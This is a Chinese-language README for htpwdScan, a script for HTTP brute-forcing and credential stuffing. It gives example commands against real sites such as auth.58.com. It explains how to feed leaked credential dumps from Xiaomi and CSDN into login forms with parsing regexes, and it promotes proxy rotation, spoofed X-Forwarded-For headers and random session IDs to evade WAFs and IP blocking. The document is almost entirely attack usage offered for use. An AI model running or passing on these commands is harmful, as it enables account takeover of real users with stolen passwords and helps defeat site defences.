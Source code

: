 htpwdScan
=================================
**htpwdScan** 是一个简单的HTTP暴力破解、撞库攻击脚本. 它的特性：
- 支持批量校验并导入HTTP代理，低频撞库可以成功攻击大部分网站，绕过大部分防御策略和waf
- 支持直接导入互联网上泄露的**社工库**，发起撞库攻击
- 支持导入超大字典
### 简单示例 ###
* HTTP Basic认证
	>htpwdScan.py -u=http://auth.58.com/ -basic user.txt password.txt
	>导入用户名密码字典即可

* 表单破解
	>htpwdScan.py -f post2.txt -d user=user.txt passwd=password.txt -err="success\":false"
	>从 post2.txt 导入抓的http包，user和passwd是需要破解的参数，而 user.txt password.txt 是保存了密码的字典文件
	>**success":false** 是选择的失败标记，标记中若有双引号，请记得用右斜杠 \ 转义

* GET参数破解
	>htpwdScan.py -d passwd=password.txt -u="http://xxx.com/index.php?m=login&username=test&passwd=test" -get -err="success\":false"
	> 使用-get参数告诉脚本此处是GET请求

* 撞库攻击
	>htpwdScan.py -f=post.txt -database loginname,passwd=xiaomi.txt -regex="(\S+)\s+(\S+)" -err="用户名或密码错误" -fip
	>htpwdScan.py -f=post.txt -database loginname,passwd=csdn.net.sql -regex="\S+ # (\S+) # (\S+)" -err="用户名或密码错误" -fip
	>使用小米和csdn库发起撞库攻击。post.txt是抓包的HTTP请求
	>参数-regex从文件提取参数的正则表达式，此处需分组，分组的方式是使用括号()
	>小米的数据格式是"xxx@163.com xxxxxxx"对应的regex格式为"(\S+)\s+(\S+)"
	>"(\S+)\s+(\S+)"指定第一个非空字符串填充loginname，第二个非空字符串填充passwd
	>csdn的数据行格式是"zdg # 12344321 # zdg@csdn.net"对应的regex格式为"(\S+) # (\S+)"
	>#号前面的非空字符串填充loginname，#号后面的非空字符串填充passwd
	>注意：-regex表达式分组与参数的顺序一一对应
	>-fip：启用伪造随机IP

* 校验HTTP代理
	> htpwdScan.py -u=http://www.baidu.com -get -proxylist=available.txt -checkproxy -suc="百度一下"
	>通过proxylist参数中的代理列表文件一个个去访问百度，如果匹配到百度一下这个字符串说明该代理服务器可用

## 完整说明 ##
	脚本支持的小功能较多，建议使用"-debug"参数查看HTTP请求是否有问题
	usage: htpwdScan.py [options]

	optional arguments:
	  -h, --help            显示帮助
	
	Target:(设定目标)
	  -u REQUESTURL		设定目标URL, 示例：-u="https://www.test.com/login.php"
	  -f REQUESTFILE	从文件导入HTTP请求
	  -https		当使用-f从文件导入HTTP请求时，启用https协议
	  -get			使用GET方法，默认：POST
	  -basic  [ ...]	HTTP Basic爆破。示例：-basic users.dic pass.dic
	
	Dictionary:(字典选项)
	  -d Param=DictFile [Param=DictFile ...]
	  	设定字典文件，支持哈希函数如md5, md5_16,sha1。示例：-d user=users.dic pass=md5(pass.dic)
	
	Detect:(标记处理)
	  -no302			无视302跳转, 默认302敏感
	  -err ERR [ERR ...]		响应文本破解失败标记，示例：-err "user not exist" "password wrong"
	  -suc SUC [SUC ...]		响应文本中的破解成功标记，示例：-suc "welcome," "admin"
	  -herr HERR			响应HTTP头的破解失败标记
	  -hsuc HSUC			响应HTTP头的破解成功标记
	  -rtxt RetryText		响应文本中的重试标记，出现则重试请求，示例：-rtxt="IP blocked"
	  -rntxt RetryNoText		响应文本中的重试标记，未出现则重试请求，示例：-rntxt="<body>"
	  -rheader RetryHeader		响应头中的重试标记，出现则重试请求，示例：-rheader="Set-Cookie:"
	  -rnheader RetryNoHeader	响应头中的重试标记，未出现则重试请求，示例：-rheader="HTTP/1.1 200 OK"
	
	Proxy and spoof:(代理和欺骗)
	  -proxy Server:Port		设定少量HTTP代理，示例：-proxy=127.0.0.1:8000,8.8.8.8:8000
	  -proxylist ProxyListFile	从文件批量导入HTTP代理，示例：-proxylist=proxys.txt
	  -checkproxy			检查代理服务器的可用性，可用代理输出到001.proxy.servers.txt
	  -fip				生成随机X-Forwarded-For头欺骗服务器
	  -fsid FSID			生成随机session ID，示例：-fsid PHPSESSID
	  -sleep seconds		每次HTTP结束等待seconds秒，避免IP被服务器屏蔽

	Database attack:(爆破字典)
	  -database DATABASE		导入社工库中的数据，示例：-database user,pass=csdn.txt
	  -regex REGEX			从社工库中提取数据的正则表达式，必须分组。示例：-regex="(\S+)\s+(\S+)"
	
	General:
	  -t THREADS			工作线程数，默认50
	  -o OUTPUT			输出文件，默认: 000.Cracked.Passwords.txt
	  -debug			进入debug模式检查HTTP请求和HTTP响应
	  -nov				只显示破解成功的条目，不显示进度
	  -v				显示程序版本号

